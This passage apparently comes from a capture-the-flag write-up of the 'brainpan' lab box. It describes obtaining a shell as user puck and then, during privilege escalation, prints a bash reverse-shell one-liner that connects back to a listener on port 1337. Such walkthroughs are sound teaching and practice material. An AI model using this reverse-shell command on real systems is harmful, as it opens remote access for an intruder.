 

Now run the command at the bottom left aaaand we have a **shell** !

![](/assets/images/brainpan/seventeen.png)


Doing the same but for the brainpan box gives us a shell with the user **puck**

![](/assets/images/brainpan/eighteen.png)


## Privilege escalation 
---

As we have already noticed the remote host is actually a Linux box running **cmd** through wine. Running `/bin/bash` in the given terminal and typing bash commands work sometimes but sometimes it doesn't. Wine seems to switch between Linux and Windows mode. This isn't practical so let's try to send a linux terminal back to us on port **1337** with `bash -i >& /dev/tcp/10.0.2.15/1337 0>&1`.

Typing this command in the given shell and in parallel listenining at port **1337** in our box returns a proper linux shell at us. ( I tried 2 or 3 times to get this to work).
